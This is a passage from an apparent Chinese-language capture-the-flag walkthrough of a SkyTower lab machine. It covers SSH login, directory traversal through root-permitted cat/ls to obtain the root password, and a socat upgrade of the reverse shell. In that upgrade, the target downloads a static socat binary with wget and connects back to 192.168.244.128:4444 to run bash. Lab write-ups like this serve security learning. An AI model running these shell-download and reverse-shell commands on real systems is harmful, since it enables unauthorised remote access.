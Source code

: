 尝试使用 ssh 进行登陆：

![image-20240221153722263](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402211608791.png)

显示可以以root权限执行`cat/ls`对`/accounts`，目录穿越一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402211608792.png" alt="image-20240221154401243" style="zoom:50%;" />

获取flag，从而获取到了root密码，获取到了root权限！！！

## 额外收获

使用`-C bash`获取到了shell以后，我们需要获取更加方便的shell，我在一个师傅的[blog](https://www.c0dedead.io/skytower-1-walkthrough/)上看到了相关方法：

```bash
# kali
socat file:`tty`,rawer tcp-listen:4444,reuseaddr
# SkyTower
cd /home/john
wget --no-check-certificate https://github.com/ernw/static-toolbox/releases/download/socat-v1.7.4.4/socat-1.7.4.4-x86_64 -O socat
chmod +x socat
HOME=/dev/shm ./socat tcp:192.168.244.128:4444 exec:'/bin/bash -li',pty,stderr,sigint,sighup,sigquit,sane
# 欺骗 Bash 生成一个 shell。更改主目录，它就会起作用，可以通过设置HOME环境变量来做到这一点。
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402211608793.png" alt="image-20240221160354272" style="zoom:50%;" />

获取到了shell！
